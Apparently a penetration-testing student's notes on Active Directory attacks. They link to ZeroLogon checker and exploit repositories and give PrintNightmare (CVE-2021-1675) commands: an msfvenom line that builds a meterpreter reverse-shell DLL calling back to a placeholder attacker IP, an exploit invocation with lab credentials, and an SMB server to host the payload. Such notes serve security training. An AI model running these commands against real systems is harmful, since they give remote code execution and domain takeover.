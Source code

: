 ![[Pasted image 20241116232234.png]]




- [ ] Abusing Zero Logon

What is ZeroLogon? - [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)

dirkjanm CVE-2020-1472 - [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

SecuraBV ZeroLogon Checker - [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)





- [ ] Print Nightmare (CVE-2021-1675)

```
Msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=5555 -f dll > shell.dll

```

```
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@<Domain_ip> 
'\\<SMB_share>'
```

```
smbserver.py share `pwd` -smb2support
```


It is taking advantage of the print spooler. [i.e. similar to Prince Spoof]


cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)



Additional AD Case Studies

https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security/

[https://tcm-sec.com/pentest-tales-002-digging-deep](https://tcm-sec.com/pentest-tales-002-digging-deep)

